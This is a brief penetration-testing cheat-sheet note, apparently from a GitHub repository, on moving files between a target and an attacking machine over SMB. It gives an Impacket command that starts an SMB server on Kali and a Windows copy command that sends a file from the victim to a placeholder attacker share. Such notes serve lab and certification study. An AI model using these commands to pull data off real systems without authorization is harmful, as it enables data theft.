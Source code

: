 # Transfert file between target and attacking machines

## SMB

### From Target to machine

- In kali we can use Impacket `python3 smbserver.py -smb2support sharename /path/folder`
- In a win victim machine we just need to copy the file to the attacking machine: `copy  FiletoDownload \\IP-OFF-ATTACKING-MACHINE\SHARENAME`

